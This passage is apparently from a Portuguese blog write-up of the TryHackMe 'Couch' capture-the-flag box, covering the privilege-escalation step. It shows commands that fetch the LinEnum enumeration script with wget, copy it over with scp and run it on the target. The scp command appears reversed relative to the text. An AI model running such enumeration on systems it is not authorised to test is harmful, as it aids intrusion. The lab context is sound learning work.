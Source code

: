 ## Escalonando privilégios

É aqui onde o filho chora e a mãe não vê. Ou, nesse caso, onde eu choro e o Leozinho ri. Nós agora precisamos escalar nossos privilégios para encontrar a chave final — ou bandeira — no arquivo "root.txt".

Partindo do princípio de que precisaríamos ter acesso total à máquina para acessar esse arquivo, tentei usar `sudo ls` para ver se tinha algum outro arquivo que eu não conseguia ver antes. Nem sei se isso faz diferença, acho que não, mas foi aí que eu descobri que esse usuário não tem permissão para usar `sudo`:

```sh
atena is not in the sudoers file. This incident will be reported.
```

Tentei descobrir que usuários estavam nesse tal arquivo de "sudoers". Encontrei alguns comandos diferentes na internet, mas todos me apontavam que não havia nenhum. Então, em teoria, eu teria que conseguir acesso ao root — o usuário supremo do sistema com acesso à tudo. *Escrevendo isso agora parece meio óbvio, né? Afinal, a gente tá procurando o arquivo "root.txt".*

Pesquisei então sobre como escalonar privilégios no Linux e encontrei [esse artigo do Joseph Carson](https://delinea.com/blog/linux-privilege-escalation) que explica com muitos detalhes como funcionam as permissões no Linux e algumas técnicas, exploits e ferramentas para automatizar esse processo. O conteúdo é muito rico e explica tudo muito bem de uma ponta à outra, recomendo a leitura.

A primeira ferramenta que o Joseph listou foi o [LinEnum](https://github.com/rebootuser/LinEnum), um script que enumera uma extensa lista de informações e possíveis vetores de ataque em uma máquina. Esse artigo não detalha como usar o script, então achei um [outro post](https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/) e, em suma, é só baixar o arquivo na máquina da vítima, tornar o script executável, rodar e analisar as informações.

Então assim eu fiz, criei uma pastinha pra deixar tudo organizado, afinal, nós somos hackers e não mal educados, e daí  baixei o script usando `wget`:

```sh
mkdir linenum
cd linenum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

E assim eu descobri que a máquina não tem acesso à internet. 😵‍💫 Mas tudo bem, eu usei esse comando então na minha máquina e depois enviei para a vítima usando `scp`:

```sh
scp atena@10.10.204.9:~/linenum .
```

Voltando para a máquina da vítima, marquei o script como executável e rodei:

```sh
chmod +x ./LinEnum.sh
./LinEnum.sh
```

Depois de alguns minutinhos, eu obtive uma extensa lista repleta de informações do sistema e possíveis vulnerabilidades:

<p align="center">
  <img src="/img/tryhackme-couch-linenum.jpg" style="height:310px" />
</p>
